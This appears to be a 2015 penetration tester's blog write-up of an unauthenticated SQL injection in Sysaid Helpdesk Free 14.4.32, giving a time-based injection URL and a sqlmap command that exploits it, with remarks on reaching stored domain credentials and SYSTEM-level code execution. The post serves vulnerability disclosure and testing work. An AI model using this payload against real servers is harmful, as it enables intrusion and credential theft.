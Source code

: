 ```yaml
---
layout: post
title: Unauthenticated SQL Injection in Sysaid Helpdesk Free v.14.4.32. b25
date: '2015-09-29T10:18:00.001-07:00'
author: Hland
tags:
- exploit
- Sysaid
- SQLi
modified_time: '2017-03-25T01:28:49.790-07:00'
thumbnail: https://i.ytimg.com/vi/hbxL0UvYrdE/default.jpg
blogger_id: tag:blogger.com,1999:blog-3264165303439231899.post-3357278205645230439
blogger_orig_url: https://blankhat.blogspot.com/2015/09/unauthenticated-sql-injection-in-sysaid.html
---
```


Discovered: June 2015

This is a flaw that I came across at a pentest for a client, the flaw ended up giving us enterprise admin access which isn't too bad. 

This issue is fixed in later versions and it seems that Sysaid have become aware of the issue on their own. This writeup is mostly for my own reference and everybody out there doing penetration testing encountering old versions of the software inside company networks. 

## The product
<https://www.sysaid.com/>

This is helpdesk software made ofr for managing company support cases, providing remote support, and a bunch of other stuff. This software’s database can contain domain credentials that are encrypted using a hardcoded secret as mentioned in the referenced CVEs. This makes it a high-value target that can give access to a large number of credentials and highly privileged accounts. The vulnerability will give facilitate remote code execution on the server as the SYSTEM user if the default configuration is in use. 


## The vulnerability

Sysaid is vulnerable to SQL injection at the following url:

```
http://sysaidserver:8080/api/v1/menu/menu_items?menu=main'WAITFOR+DELAY'0%3a0%3a10'--&all_tree=true
```


This makes it possible to dump the entire database using for instance SQLMap. To exploit the vulnerability successfully, SQLMap must be provided with a valid JSESSIONID cookie that will be set by the server upon first visit to the site. 

The following SQLMap command will detect and be able to exploit the injection vulnerability to return the user that the database commands are executed as:

```
sqlmap -u http://sysaidserver:8080/api/v1/menu/menu_items?menu=main*&all_tree=true --cookie="JSESSIONID=xxx" --current-user 
```
